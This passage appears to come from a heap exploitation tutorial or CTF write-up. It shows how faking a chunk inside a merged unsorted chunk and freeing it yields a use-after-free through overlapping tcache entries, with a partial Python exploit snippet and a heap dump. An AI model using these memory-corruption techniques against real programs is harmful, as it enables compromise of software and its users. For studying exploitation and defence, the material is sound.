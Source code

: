 Here, we can see that entry number 8 (`alloc_arr+64)` points to `—▸ 0x562250b70740 ◂— 'BBBBBBBBBBBBBBBBBBBBBBBB'`.
Now instead of writing `B` in this chunk we could fake a chunk and call `free` on it, which would grant us a `Use After Free (UAF)`!

Example:
```python
# Same as above
[...]

# Craft a fake chunk from the newly merged unsorted chunk
unsorted_chunk = malloc(0x118, p8(0x21), offset=0x88)

# Free the fake chunk
free(b)

# Free the unsorted chunk again
free(unsorted_chunk)
```


This will then give a `UAF` primitive which can be used to further exploit the program:
```
0x56380aee46a0	0x0000000000000000	0x0000000000000121	........!.......
0x56380aee46b0	0x000000056380aee4	0x3ebdbb8d71da1a86	...c.......q...>	 <-- tcachebins[0x120][0/1]
0x56380aee46c0	0x4141414141414141	0x0000000000000000	AAAAAAAA........
0x56380aee46d0	0x0000000000000000	0x0000000000000000	................
0x56380aee46e0	0x0000000000000000	0x0000000000000000	................
0x56380aee46f0	0x0000000000000000	0x0000000000000000	................
0x56380aee4700	0x0000000000000000	0x0000000000000000	................
0x56380aee4710	0x0000000000000000	0x0000000000000000	................
0x56380aee4720	0x0000000000000000	0x0000000000000000	................
0x56380aee4730	0x0000000000000090	0x0000000000000021	........!.......
0x56380aee4740	0x000000056380aee4	0x3ebdbb8d71da1a86	...c.......q...>	 <-- tcachebins[0x20][0/1]
0x56380aee4750	0x4242424242424242	0x0000000000000000	BBBBBBBB........
0x56380aee4760	0x0000000000000000	0x0000000000000000	................
0x56380aee4770	0x0000000000000000	0x0000000000000000	................
0x56380aee4780	0x0000000000000000	0x0000000000000000	................
0x56380aee4790	0x0000000000000000	0x0000000000000000	................
0x56380aee47a0	0x0000000000000000	0x0000000000000000	................
0x56380aee47b0	0x0000000000000000	0x0000000000000000	................
0x56380aee47c0	0x0000000000000120	0x0000000000000021	 .......!.......
0x56380aee47d0	0x6863206472617547	0x00000000006b6e75	Guard chunk.....
0x56380aee47e0	0x0000000000000000	0x0000000000020821	........!.......	 <-- Top chunk
```

notice how the `t-cache entry` for `0x120` consumes the `t-cache entry` for `0x20`. This is the basis of the `UAF`.


### Crafting primitives
